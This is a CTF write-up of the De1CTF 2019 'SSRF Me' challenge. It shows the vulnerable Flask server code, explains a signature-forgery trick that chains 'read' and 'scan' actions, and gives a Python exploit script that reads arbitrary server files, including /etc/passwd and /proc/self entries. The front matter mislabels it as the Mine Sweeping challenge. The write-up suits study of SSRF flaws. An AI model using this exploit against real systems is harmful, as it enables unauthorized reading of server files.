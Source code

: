 ```yaml
---
layout: post
title:  "De1CTF 2019 SSRF Me Writeup"
date:   2019-08-06 18:00:00 +0300
categories: CTF_writeup De1CTF_2019
summary: This is my writeup for the Mine Sweeping challenge. This challenge was part of De1CTF 2019. We only got an URL that we should access as part of the challenge. Accessing that URL returns some python code.
---
```

This is my writeup for the `SSRF Me` challenge. This challenge was part of [De1CTF 2019](https://ctftime.org/event/843).

We only got an URL that we should access as part of the challenge. Accessing that URL returns some python code.


<details>
  <summary>Python code - server(click to expand)</summary>
<p>
{% highlight python %}
#! /usr/bin/env python
#encoding=utf-8
from flask import Flask
from flask import request
import socket
import hashlib
import urllib
import sys
import os
import json
reload(sys)
sys.setdefaultencoding('latin1')

app = Flask(__name__)

secert_key = os.urandom(16)


class Task:
    def __init__(self, action, param, sign, ip):
        self.action = action
        self.param = param
        self.sign = sign
        self.sandbox = md5(ip)
        if(not os.path.exists(self.sandbox)):          #SandBox For Remote_Addr
            os.mkdir(self.sandbox)

    def Exec(self):
        result = {}
        result['code'] = 500
        if (self.checkSign()):
            if "scan" in self.action:
                tmpfile = open("./%s/result.txt" % self.sandbox, 'w')
                resp = scan(self.param)
                if (resp == "Connection Timeout"):
                    result['data'] = resp
                else:
                    print resp
                    tmpfile.write(resp)
                    tmpfile.close()
                result['code'] = 200
            if "read" in self.action:
                f = open("./%s/result.txt" % self.sandbox, 'r')
                result['code'] = 200
                result['data'] = f.read()
            if result['code'] == 500:
                result['data'] = "Action Error"
        else:
            result['code'] = 500
            result['msg'] = "Sign Error"
        return result

    def checkSign(self):
        if (getSign(self.action, self.param) == self.sign):
            return True
        else:
            return False


#generate Sign For Action Scan.
@app.route("/geneSign", methods=['GET', 'POST'])
def geneSign():
    param = urllib.unquote(request.args.get("param", ""))
    action = "scan"
    return getSign(action, param)


@app.route('/De1ta',methods=['GET','POST'])
def challenge():
    action = urllib.unquote(request.cookies.get("action"))
    param = urllib.unquote(request.args.get("param", ""))
    sign = urllib.unquote(request.cookies.get("sign"))
    ip = request.remote_addr
    if(waf(param)):
        return "No Hacker!!!!"
    task = Task(action, param, sign, ip)
    return json.dumps(task.Exec())

    
@app.route('/')
def index():
    return open("code.txt","r").read()


def scan(param):
    socket.setdefaulttimeout(1)
    try:
        return urllib.urlopen(param).read()[:50]
    except:
        return "Connection Timeout"



def getSign(action, param):
    return hashlib.md5(secert_key + param + action).hexdigest()


def md5(content):
    return hashlib.md5(content).hexdigest()


def waf(param):
    check=param.strip().lower()
    if check.startswith("gopher") or check.startswith("file"):
        return True
    else:
        return False


if __name__ == '__main__':
    app.debug = False
    app.run(host='0.0.0.0',port=80)
{% endhighlight %}
</p>
</details>

We can notice some things by analysing the code:
* the '/' endpoint returns the code, as we observed before
* the `/geneSign` endpoint will call the getSign function
    * The getSign function takes 2 arguments: param and action (both of them are strings)
    * That function will also access the 'secert_key' variable which is randomly generated
    * The function returns an MD5 hash of the string obtained by merging secert_key, param and action
    * the `/geneSign` endpoint will set the action to 'scan' and let the user supply the value for 'param'
* the `/De1ta` endpoint will create a Task object and return the result of its `.Exec()` method
    * This endpoint allows the user to supply values for 3 variables
        * action - by setting the 'action' cookie
        * sign - by setting the 'sign' cookie
        * param - by using an URL parameter named 'param'
        * It looks like the IP address of the user is also used (we can ignore this as it is used only for sandboxing purposes)
    * Next, we should look at details about the Task class. It has a simple constructor that uses the values mentioned above and the Exec method. The Exec method is where the important stuff happens
        * One of the first things that we notice in the Exec method is the `self.checkSign()` check. To avoid getting an error (code 500), the request should have a 'sign' cookie with the expected value
        * The expected value is a MD5 hash computed by calling the getSign method that was mentioned above. This means that we should be able to get a hash by using the `/geneSign` endpoint
        * The `/geneSign` endpoint has the value for 'action' set to 'scan'. We should imitate that and set the action to 'scan' in our request too. As a result, if we chose a valid URL for 'param', generate a hash using the `/geneSign` endpoint and then use that hash with the 'scan' action and the same parameter at the `/De1ta` endpoint we can get a 200 (OK) response from the server
        * Now it is time to take a look at what the 'scan' action means for this program. After that check passes, we have two available actions:
            * scan - takes the URL from 'param', open it and then put the first 50 characters from it into a file
            * read - returns the content obtained by the last 'scan' action
            * Another thing that should be mentioned here is that the check is performed using `in`. This means that the user-supplied string could contain both of these actions (e.g. "scanread" would be a valid input and it would trigger both actions)
            * The actions are always performed in the same order without taking into account the order of their keywords in the user-supplied string. So both "scanread" and "readscan" will produce the same result (a 'scan' action followed by a 'read' action)
* So in order to read the content of an arbitrary URL we should be able to use a 'read' action. However, we cannot obtain a valid hash from `/geneSign` because that will always have the action set to 'scan'
    * But as I mentioned above, the order of the words 'scan' and 'read' in the string does not matter. This means that we could make the request to `/geneSign` using 'read' followed the the URL as the value for 'param'. After the strings are merged this will be the same as if the action was "scanread" and the value of 'param' was the original URL  that we wanted to access
* Doing the actions mentioned above allowed me to access /etc/passwd as a PoC for this "exploit". Howevere, as we expected, only the first 50 characters of the file were returned.

![Reading from /etc/passwd]({{site.baseurl}}/assets/img/De1CTF_2019/ssrf_1.png){: .center-image}

* To make things easier from here, I created a Python script that does all the required steps to read a file from the server

<details>
  <summary>get_file.py (click to expand)</summary>
<p>
    {% highlight python %}
    import requests
    import sys
    import json

    server = 'http://139.180.128.86/'


    def get_signature(param):
        req_url = server + 'geneSign' + '?param=' + param

        res = requests.get(req_url)
        return res.text


    def get_file(path):
        s = get_signature(path + 'read')
        action = 'readscan'

        cookies = {}
        cookies['action'] = action
        cookies['sign'] = s

        request_url = server + 'De1ta?param=' + path
        r = requests.get(request_url, cookies = cookies)
        
        res = json.loads(r.text)
        if res['code'] is 200:
            print('Request was successful')
            return res['data']
        else:
            print('Request failed')
            return None


    if __name__=='__main__':
        if len(sys.argv) is not 2:
            print('Wrong number of arguments')
            exit(1)
        else:
            path = sys.argv[1]

        print('Obtaining file %s' % path)
        tmp = get_file(path)
        print(tmp)
    {% endhighlight %}
</p>
</details>

* Next, I tried to obtain the `./flag` file without success so I assumed that need a full path for that
    * For this, I tried to access `/proc/self/cmdline` to get some information about the current process (the working directory in particular) but the 50 character limit prevented me from obtaining relevant information
    * I also tried reading other files from the system or from /proc/self but I couldn't get any useful information. An example of useless information that I got was that PID of the process and the fact that the server uses the [uWSGI framework](https://uwsgi-docs.readthedocs.io/en/latest/)

![PID and uwsgi]({{site.baseurl}}/assets/img/De1CTF_2019/ssrf_2.png){: .center-image}

* After a while I decided to take a step back and try going for `./flag` again but this time I tried to read `flag` (without the './')
    * To my surprise, that worked and I obtained the flag for this challenge

![flag obtained]({{site.baseurl}}/assets/img/De1CTF_2019/ssrf_3.png){: .center-image}
